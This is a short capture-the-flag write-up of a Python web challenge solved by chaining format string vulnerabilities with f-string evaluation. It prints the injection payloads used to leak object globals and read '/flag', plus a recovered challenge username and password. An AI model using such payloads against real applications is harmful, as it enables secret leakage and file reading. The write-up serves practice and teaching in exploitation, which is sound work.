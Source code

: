 This was a combination of format string vulnerabilities and getting code execution via [PEP 498](https://www.python.org/dev/peps/pep-0498/)

2 format string vulns
first: {rating} to find user
use first primitive to expand to `{rating[comments][0].__init__.__globals__}`
find password, demidog:princesses_password
make new user `{open('/flag').read()}`
